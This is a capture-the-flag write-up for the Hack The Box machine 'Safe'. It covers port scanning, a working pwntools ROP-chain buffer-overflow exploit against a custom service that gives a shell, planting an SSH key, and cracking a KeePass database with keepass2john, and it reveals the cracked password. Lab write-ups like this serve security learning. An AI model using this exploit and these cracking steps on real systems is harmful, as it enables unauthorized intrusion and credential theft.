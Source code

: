# Hack The Box - Safe

![](Images/safe.png)



### <u>Port Scan</u>

We are starting with a **nmap** to scan for open ports with the following command:

```
~$ nmap -sC -sV -p- 10.10.10.147
```

![](Images/1.png)



The server has 3 open ports:

1. Apache Web Server -> 80

2. OpenSSH Server -> 22

3. 1337 -> Custom application

   

### <u>Web Enumeration</u>

When we enter in the web application we see the default Debian Apache webpage but in the source code there is a comment with a hint that indicates that we can download the application that is running on port 1337 if we visit ***/myapp***.

![](Images/2.png)

![](Images/3.png)



### <u>Custom Application Analysis: myapp</u>

After downloading the application running on port 1337, we will analyze it to find any vulnerabilities that could compromise the server.

**Myapp** is a 64 bits application, dynamically linked and with no symbols stripped.

![](Images/4.png)



Seeing that the application returns the same string that we sent the first thing we could think is that the application is vulnerable to format string, but resulted not be vulnerable to format string vulnerability because after sending **%x** the application did not leak any memory address.

![](Images/5.png)

![](Images/6.png)



The next step was to check if the application is vulnerable to buffer overflow sending a long payload.

![](Images/7.png)



After check that the application is vulnerable to buffer overflow we are going to check if the binary has been compiled with any protection. **Myapp** has NX protection enabled so we need to do a ROP chain in oder to exploit this program because the stack is not executable.

![](Images/8.png)



### <u>Exploit Development</u>

1. **Calculate offset**:
   We need to create a pattern in order to calculate how many bytes we need to send to overwrite the **rip** register.

   ![](Images/9.png)

   

   We can control the program flow if we send 120 bytes.

   ![](Images/10.png)

   

2. **Generate ROP chain:**

   We are going to create a ROP chain that writes at **.bss** section a string and then we are going to call system function with that string in order to execute commands.

   First we will search a "pop rdi; ret" gadget.

   ```bash
   ~$ ropper -f myapp > gadgets.txt
   ~$ grep "pop rdi" gadgets.txt
   ```

   ![](Images/11.png)
   
   

   Then we will search in which memory position is the **.bss** section

   ![](Images/12.png)


   We will create the following script using **pwntools** to write in **.bss** the command we want to execute and then we will pass the memory address in which our string is stored to the function system

   ```python
   from pwn import *
   
   elf  = ELF('./myapp')
   context.terminal = ['tmux', 'sp', '-h']
   context.log_level = 'DEBUG'
   
   io= remote("10.10.10.147",1337)
   
   payload = flat(
               'A'*120,
               0x40120b,           # 0x000000000040120b : pop rdi ; ret
               0x404058,           #.bss
               elf.sym['gets'],
   	        0x40120b,                # 0x000000000040120b : pop rdi ; ret
               0x404058,             #.bss
               elf.sym['system'],
               endianness = 'little', word_size = 64, sign = False)
   io.recvline()
   io.sendline(payload)
   io.interactive()
   
   ```

   

3. **Execute Exploit:**

   We can execute any command but the program will finish after that, to avoid that we will execute "***/bin/bash***" in order to get a shell.
   
   ![](Images/13.png)

   

   

### <u>Privilege Escalation</u>

We decide to write out public key at "***/home/user/.ssh/authorized_keys***" to enter by SSH.

![](Images/14.png)

![](Images/15.png)



There are some interesting files in the user home, one Keepass database and six images files.

![](Images/16.png)



We decided to download those files and then try to crack the Keepass database, but without success.

![](Images/17.png)



After researching we discovered that it is possible to use a keyfile+password in a keepass database.

We can use keepass2john to generate a hash in order to crack the keepass database.

```bash
~$ keepass2john -k IMG* MyPasswords.kdbx >> Safe_Keepass_Keyfiles.txt
```

![](Images/18.png)



We cracked the hash so we can access to **MyPasswords** database using IMG_547.jpg as keyfile and **bullshit** as password in order to obtain the root password.

![](Images/19.png)



We use the password obtained in the keepass file to become root and obtain the root flag.

![](Images/20.png)

